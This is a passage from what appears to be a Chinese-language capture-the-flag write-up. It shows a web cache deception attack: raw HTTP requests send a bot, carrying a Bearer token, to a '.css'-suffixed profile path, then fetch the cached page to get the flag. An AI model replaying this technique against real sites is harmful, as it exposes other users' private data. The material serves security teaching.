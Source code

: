 ![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756909595664-77ac8cef-27cc-4c8c-9f4d-133c74dc660f.png)

带着我们的Authorization: Bearer 去访问一个 uri

```plsql
POST /visit HTTP/1.1
Host: 94.237.55.43:49952
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-US,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJieDMzNjYxIiwiaWF0IjoxNzU2OTA5MzM0LCJleHAiOjE3NTY5OTU3MzR9.0O_U6hBqKVesbgq9sk6UpBFKLz04g-gHWECAmu99Jfs
Referer: http://94.237.55.43:49952/register
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{
 "uri":"profile/1.css"
}
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756909553406-44334edd-aa95-494d-8173-8d97ce5cdc5a.png)

访问我们刚刚缓存的

```plsql
GET /profile/1.css HTTP/1.1
Host: 94.237.55.43:49952
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-US,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJieDMzNjYxIiwiaWF0IjoxNzU2OTA5MzM0LCJleHAiOjE3NTY5OTU3MzR9.0O_U6hBqKVesbgq9sk6UpBFKLz04g-gHWECAmu99Jfs
Referer: http://94.237.55.43:49952/register
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

得到 flag

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756909513886-a47f389f-2f9b-4e94-af53-0800269c4bcb.png)

得到 flag





### best-profile
> oops, it’s my profile
>
